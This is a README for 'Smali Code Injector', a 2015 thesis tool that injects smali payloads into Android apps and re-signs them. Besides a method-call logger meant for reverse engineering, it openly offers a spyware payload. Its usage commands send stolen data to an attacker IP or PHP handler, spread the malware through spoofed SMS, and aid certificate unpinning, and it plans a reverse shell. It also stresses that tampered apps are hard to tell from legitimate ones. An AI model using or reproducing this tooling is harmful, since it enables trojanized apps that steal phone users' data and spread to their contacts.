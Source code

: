 ![SCI](images/sci_logo.jpg)
# Smali Code Injector
## Automate assembly code (**smali**) injection within Android applications.

The initial ambition of this project was to automate stack trace injections within Android applications in order to facilitate my master thesis work. Being able to log and display applications' runtime method calls along with their returned value greatly helps in reverse engineering complex applications by providing an insight into their logic and workflow. 

Lately, new features and payloads were added in an attempt to create a framework fully capable of injecting any type of assembly code. Users familiar with Android development could easily implement compatible payloads. SCI is in charge of automating low level operation such as registers allocation, dependancie, type, etc. 

**Tampering Android applications has never been that easy!**

More information about Android reverse engineering can be found at:

<http://www.n00blinuxhacker.com/android-pentesting-reverse-engineering-android-app.html>

### Automation for a simpler world
Code injections are performed at the assembly level (smali files) which make the process of differenciation between legit and modified applications complicated and time consuming - it would require considerable forensic work such as network, permissions, signature and code analysis -.

A high level overview of the steps involved during code injection is:

1. Disassembling the application
2. Collecting relevant information about the application. 
	* Classes name.
	* Methods name.
	* Registers number and type.
	* etc.
3. Editing the AndroidManifest.xml to add permissions, services and broadcastReceivers (depending on the payload requirements).
4. Injecting and tweaking up the selected payload within the targeted method(s).
5. Reassembling and signing the app with a valid self-signed certificate.

## Usage
### Examples:
Generic usage:

		$ python3 sci.py -a [app] -t [target] -k [keyword] -p [payload] -rh [remote_host] -ppg [spoofed_SMS]
	[-a]: 	applicaion to modify.
	[-t]: 	directory/file where to recursively perform the injection. If this argument is absent, the injection is performed within the whole app.
	[-k]: 	keywords to filter on. Ex: if -k "SSL,X509TrustManager" the payload will only be injected on the method containing SSL in their declaration header - **help for certificate unpinning** -.
	[-p]: 	payload to inject. 
	[-ppg]:	spoofed SMS content to send - **to propagate the malware** -.
	[-rh]:  IP address of the attacker/script for sending the stolen data.

Spyware usage:

		$ python3 sci.py -a [app] -t [target] -k [keyword] -p *spyware* -rh [script] -ppg [spoofed_SMS]
    
    [-ppg]:	link with the malicious app. 
	[-rh]: 	IP of the remote receiver (or URL of the file responsible for the JSON data handling and parsing (a script example can be found under /scripts/handler.php - do not forget to change the settings to connect to your DB -).

	**Tip**: Inject the Spyware on the **onCreate()** method of the main activity.

Logger usage:

		$ python3 sci.py -a [app] -t [target] -k [keyword] -p *logger*

	**Note**: Connect your phone to your computer and use the following command to filter and print out only the modified app runtime method calls:

		$ adb logcat | grep "::trace

Identify the main activity (works with obfuscated app):

		$ python3 sci.py -a [apps] -s
		
Display the help menu:

		$ python3 sci.py -h

## Dependencies
### Third-party libraries
#### progressbar:
You need to install the progressbar package available at the link below. Alternatively, you can also comment out every lines linked to the use of this library in the **payload.py** file.
	
<http://code.google.com/p/python-progressbar/>

Installation on Linux (debian):

	$ sudo apt-get install python3-progressbar -y

## Future Improvements
* Add new payloads (reverse shell).
* Source code optimisation.

## Project Information
This framework was developed in the context of my master thesis work in July 2015.	

## Licenses
### Smali Code Injector:
   Copyright (C) 2015 Alexandre Teyar

Licensed under the Apache License, Version 2.0 (the "License");
you may not use this file except in compliance with the License.
You may obtain a copy of the License at

<http://www.apache.org/licenses/LICENSE-2.0>

Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
See the License for the specific language governing permissions and
   limitations under the License. 

### Apktool:
   Copyright (C) 2010 Ryszard Wiśniewski 

Licensed under the Apache License, Version 2.0 (the "License");
you may not use this file except in compliance with the License.
You may obtain a copy of the License at

<http://www.apache.org/licenses/LICENSE-2.0>

Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
See the License for the specific language governing permissions and
   limitations under the License. 

### python-progressbar:
   Copyright (C) 2005 Nilton Volpato

Licensed under the Apache License, Version 2.0 (the "License");
you may not use this file except in compliance with the License.
You may obtain a copy of the License at

<http://www.apache.org/licenses/LICENSE-2.0>

Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
See the License for the specific language governing permissions and
   limitations under the License.

### smali/baksmali:
   Copyright (c) 2010 Ben Gruver (JesusFreke)
All rights reserved.

Redistribution and use in source and binary forms, with or without
modification, are permitted provided that the following conditions
are met:

1. Redistributions of source code must retain the above copyright
   notice, this list of conditions and the following disclaimer.
2. Redistributions in binary form must reproduce the above copyright
   notice, this list of conditions and the following disclaimer in the
   documentation and/or other materials provided with the distribution.
3. The name of the author may not be used to endorse or promote products
   derived from this software without specific prior written permission.

THIS SOFTWARE IS PROVIDED BY THE AUTHOR ``AS IS'' AND ANY EXPRESS OR
IMPLIED WARRANTIES, INCLUDING, BUT NOT LIMITED TO, THE IMPLIED WARRANTIES
OF MERCHANTABILITY AND FITNESS FOR A PARTICULAR PURPOSE ARE DISCLAIMED.
IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY DIRECT, INDIRECT,
INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES (INCLUDING, BUT
NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES; LOSS OF USE,
DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER CAUSED AND ON ANY
THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT LIABILITY, OR TORT
INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN ANY WAY OUT OF THE USE OF
THIS SOFTWARE, EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE.
